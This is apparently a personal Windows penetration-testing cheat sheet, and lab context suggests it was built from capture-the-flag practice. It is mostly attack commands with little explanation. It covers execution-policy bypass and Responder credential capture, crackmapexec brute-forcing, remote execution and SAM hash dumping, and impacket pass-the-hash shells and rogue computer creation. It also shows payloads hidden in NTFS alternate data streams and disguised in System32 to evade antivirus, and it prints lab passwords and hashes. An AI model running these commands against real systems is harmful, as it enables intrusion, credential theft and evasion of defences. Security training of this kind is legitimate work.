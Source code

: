 # ORDENAR ESTO


## Tips

### Use ExecutionPolicy Bypass: Allows the script to run even if the PowerShell execution policy is restrictive.

```
powershell.exe -ExecutionPolicy Bypass -File C:\Temp\your_script.ps1

powershell -ep bypass
```


rundll32
msiexec







## Responder
`sudo responder -I tun0`























## WinRM

Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).

Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems.
- Manage and configure Windows systems remotely.
- WinRM typically uses TCP port 5985 and 5986 (HTTPS).

WinRM implements access control and security for communication between systems through various forms of authentication.

We can utilize a utility called `crackmapexec` to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.



















### crackmapexec
- <https://github.com/byt3bl33d3r/CrackMapExec>
- <https://ptestmethod.readthedocs.io/en/latest/cme.html>

This package is a swiss army knife for pentesting Windows/Active Directory environments.

From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL's into memory using Powershell, dumping the NTDS.dit and more.



```
crackmapexec [IP]
crackmapexec [IP] --shares -u '' -p ''
crackmapexec [IP] --shares -u 'foobar' -p '' # may fall back to anonymous log in


crackmapexec winrm [IP] -u [USERS FILE] -p [PASSWORD FILE]
crackmapexec winrm [IP] -u administrator -p [PASSWORD FILE]

crackmapexec winrm [IP] -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm [IP] -u administrator -p tinkerbell -x "systeminfo"



# Confirm MachineAccountQuota
crackmapexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ

```



`crackmapexec smb [TARGET] -u maya -p "m4y4ngs4ri" --sam`
...
MB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
...


















## impacket
- <https://github.com/fortra/impacket>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.



```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"


# Impacket's wmiexec.py can be used to get a shell
impacket-wmiexec [DOMAIN]/[USERNAME]:[PASSWORD]@[IP]
impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.129.208.12




impacket-mssqlclient ARCHETYPE/sql_svc@${ip} -windows-auth
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

impacket-psexec administrator@${ip}
python3 psexec.py administrator@{TARGET_IP}
# PsExec is a light-weight telnet-replacement that lets you execute processes on other systems
# https://learn.microsoft.com/en-us/sysinternals/downloads/psexec



# add computer

impacket-addcomputer '[DOMAIN]/[USERNAME]' -method [METHOD] -computer-name '[NEW COMPUTER_NAME]' -computer-pass '[NEW COMPUTER_PASSWORD]' -dc-ip [DC_IP_ADDRESS]


impacket-addcomputer 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.10.11.222

```






















## nc
https://github.com/int0x33/nc.exe/blob/master/nc64.exe
















## winPEAS
winPEASx64.exe
- <https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation>

































###########################################


## Alternate Data Streams (ADS)

Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).

Any file created on an NTFS formatted drive will have two different forks/streams:
- Data stream - Default stream that contains the data of the file.
- Resource stream - Typically contains the metadata of the file.

Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detection.

This can be done by storing the malicious code or executables in the file attribute resource stream (metadata) of a legitimate file.

This technique is usually used to evade basic signature based AVs and static scanning tools.

# Example of hidden file!
```
notepad newFile.txt:hiddenFile.txt
```



# Hide WinPEAS
```

# send the payload to a file with a legitimate name (windowslog.txt)
type WinPEAS.exe > windowslog.txt:winpeas.exe

#if you have the privileges just run the file
start windowslog.txt:winpeas.exe

# another option is create symbolic link in C:\Windows\System32
C:\Windows\System32> mklink wupdate.exe [PATH TO PAYLOAD FILE]
C:\Windows\System32> wupdate


```










## Abusing Windows Library Files

### Obtaining Code Execution via Windows Library Files

Windows library files are virtual containers for user content.
They connect users with data stored in remote locations like web services or shares.
These files have a `.Library-ms` file extension and can be executed by double-clicking them in Windows Explorer.



















